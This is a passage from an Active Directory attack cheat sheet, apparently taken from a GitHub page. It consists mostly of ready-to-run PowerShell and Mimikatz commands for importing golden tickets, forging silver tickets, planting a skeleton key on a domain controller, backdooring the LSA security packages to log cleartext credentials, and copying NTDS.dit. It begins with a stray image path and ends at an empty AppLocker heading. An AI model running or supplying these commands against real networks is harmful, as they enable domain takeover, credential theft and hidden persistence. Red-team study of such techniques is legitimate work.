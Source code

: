     
    ```
    
- Import the golden ticket into the memory
    
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::ptt golden_tkt.kirbi"'
    
    ```
    
- Crafting Silver Ticket (TGS) for CIFS Service (Requires service account creds/ machine account)
    
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:organicsecurity.local /sid:S-1-5-21-182222111-321222112-53222211 /rc4:ff46a932423423427602342346f35 /target:dc.organicsecurity.local /service:CIFS/dc.organicsecurity.local /ptt"'
    
    ls \\organicsecurity.local\c$
    NOTE: HOST - Scheduled Task | HOST + RPCSS - PowerShell remoting & WMI | LDAP - DCSync
    
    ```
    
- Perform Skeleton Key based persistance attack (Use Mimikatz as default password for all account)
    
    ```powershell
    Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc
    
    ```
    
- Backdoor SSP on DC to log credentials in cleartext in log file (c:\windows\system32\kiwissp.log)
    
    ```powershell
    $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
    
    $packages +="mimilib"
    
    Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
    Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $packages
    
      OR
    
    Invoke-Mimikatz -Command '"misc::memssp"'
    
    ```
    

**Read Protected file from the disk**

- Read NTDS.dit file (Only on DC, Containes the credentials of the AD Users)
    
    ```powershell
    Invoke-NinjaCopy C:\Windows\System32\ntds.dit C:\ntds.dit
    
    ```
    

**Read Protected file from the disk**

- Identify the Applocker Policy to bypass the contrained jail shell
    